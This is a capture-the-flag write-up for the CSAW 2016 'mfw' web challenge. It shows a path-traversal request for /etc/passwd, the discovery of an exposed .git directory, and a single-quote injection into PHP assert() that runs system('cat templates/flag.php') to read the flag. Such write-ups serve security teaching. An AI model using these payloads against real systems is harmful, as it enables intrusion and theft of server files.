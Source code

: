 # CSAW CTF 2016 mfw Writeup

mfw was a web challenge that included one flag for 125 points.

When launching the mfw web site at web.chal.csaw.io:8000 was introduced by the phrases 

```Welcome to my website!
I wrote it myself from scratch!
``` 

and this is how it basically looked like: A navigation pane with three links to `Home`, `About` and `Contact`. While Home and  Contact did not show something interesting, the About page revealed some nice information as he wrote: 

```
I wrote this website all by myself in under a week!
I used Git, PHP and Bootstrap 
```

Next to this it was easy to see that the developer created a common templating system based on the GET parameter `page` as all URL looked like the following:

```
http://web.chal.csaw.io:8000/?page={home,about,contact}
```

Further investigation of the source code revealed that formerly there seemed to be a fourth link within the navigation pane:

```
<ul class="nav navbar-nav">
    <li ><a href="?page=home">Home</a></li>
	<li class="active"><a href="?page=about">About</a></li>
	<li ><a href="?page=contact">Contact</a></li>
	<!--<li ><a href="?page=flag">My secrets</a></li> -->
</ul> 
```

For sure, the most obvious and therefore first try was to use a local file inclusion to get the output of /etc/passwd or the flag.php file but the following answer was returned:

```
http://web.chal.csaw.io:8000/?page=../../../../../etc/passwd

Detected hacking attempt!
```

Some more tests with different payloads and encodings lead to the fact that the code somehow detects two points, so a simple directory traversal was not possible. After some tries I found out the the flag.php file was lying within a folder called `templates`, but the inclusion of the file did not show any further information so my guess was that the flag is saved within a PHP variable of the file. 

Following the hint from the `About` page I tried to see whether the developer forgot to exclude the `.git` directory from the web server and voila: a directory listing showing the default content of a .git folder was found:

```
branches  description  hooks  info  objects      refs
config    HEAD         index  logs  packed-refs
```

Now I cloned the git repository and used `git diff` which revealed the source code of the index.php file as follows:

```
<?php
-
-if (isset($_GET['page'])) {
-       $page = $_GET['page'];
-} else {
-       $page = "home";
-}
-
-$file = "templates/" . $page . ".php";
-
-// I heard '..' is dangerous!
-assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
-
-// TODO: Make this look nice
-assert("file_exists('$file')") or die("That file doesn't exist!");
```

Jackpot! The first use of the `assert` function suffers from a remote code execution vulnerability as there is no input validation that restricts a user from using a single quote which enables him to break out of the first argument within the `strpos()` function. 

Therefore, the following payload:

```
flag','..')+or+system('cat+templates/flag.php');//
``` 

lead to the response containing the flag:

```
<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
```